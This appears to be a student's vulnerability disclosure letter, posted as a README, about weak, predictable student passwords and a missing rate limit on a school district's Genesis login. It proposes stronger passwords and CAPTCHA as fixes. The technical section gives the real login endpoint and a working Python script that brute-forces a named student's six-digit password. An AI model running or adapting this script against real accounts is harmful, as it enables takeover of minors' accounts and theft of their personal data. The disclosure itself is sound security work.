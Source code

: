# Genesis Password Concern

## 🧠 Intro

I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly. This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password, a large amount of personal information is at risk.

## ❓ Why this is a problem

How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of student's personal information is accessible. This includes the following (in no particular order)

- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devices signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account. I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it). Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit/modify/send information/emails as someone else.

## ✨ Fixes

Now that this problem is known, it wouldn't be very helpful if I didn't suggest some fixes! So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts. Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number. This means that for many student passwords only four digits need to be cracked. This is bad because it lowers the time to crack passwords. I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes. This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at a certain grade (I would say 6th grade) students could learn how to then make their own secure passwords. Secure passwords have 10 characters made up of letters, numbers, and special characters. These passwords should not be able to be seen by teachers or other staff but could be reset if needed. This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to the Genesis login system. This is something that would require working with the Genesis 'team' to fix but would be *ok* if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession. For example, the program mentioned above was able to make over 30 requests per second. This allows simple brute force attacks (such as this one) to work. Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA. 

### 🌠 Fixes Conclusion

There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used. Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion

Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it. At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk. I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to better security! As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students. I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor Slade

connorslade@bernardsboe.com

## 📅 Technical Details (If you are interested)

Here I will be going over some specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164). This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends POST requests to `https://parents.genesisedu.com/bernardsboe/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack (ex: connorslade@bernardsboe.com). I found these details by looking at the site's network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account. Code comments are included to help show what each line does.

```python
import requests # Import needed module

url = 'https://parents.genesisedu.com/bernardsboe/sis/j_security_check' # define api uri
email = '' # Put student Email here (ex: example@bernardsboe.com)
print(f'[*] Starting Crack for {email}') # Print email to crack

for i in range(9999): # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}' # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]') # print what password is being tried
    try:
        ses = requests.Session()
        ses.max_redirects = 2
        # put the username and password into a object ready to be send to the api
        dataToSend = {"j_password": toTry, "j_username": email}
        # Send data to Genesis api as if you clicked login on the login form
        data = ses.post(url, timeout=0.5, data=dataToSend)
        # try the next possible password if server timeouts or has too many redirects
    except (requests.exceptions.TooManyRedirects, requests.exceptions.Timeout):
        continue
    if data.status_code != 200:
        continue
    print(f'\n[*] Complete: {toTry}') # if passwords is correct print it
    break # Exit the loop when the password has been found
```

Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however, it does a good job showing what is going on without optimizations. To speed this up multi-threading can be used to attempt more passwords in the same amount of time.